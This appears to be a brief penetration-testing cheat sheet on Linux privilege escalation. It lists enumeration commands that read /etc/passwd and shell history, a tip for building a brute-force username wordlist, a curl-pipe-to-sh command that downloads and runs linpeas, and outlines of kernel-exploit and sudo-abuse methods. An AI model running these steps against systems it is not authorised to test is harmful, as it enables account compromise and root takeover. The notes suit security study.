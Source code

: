 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```


To get a nice wordlist which will help you in bruteforcing for other user accounts you can cut /etc/passwd file to reduce the noise 

```cat /etc/passwd | cut -d ":" -f 1```



# Automated tools

```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
```wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh```
## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.














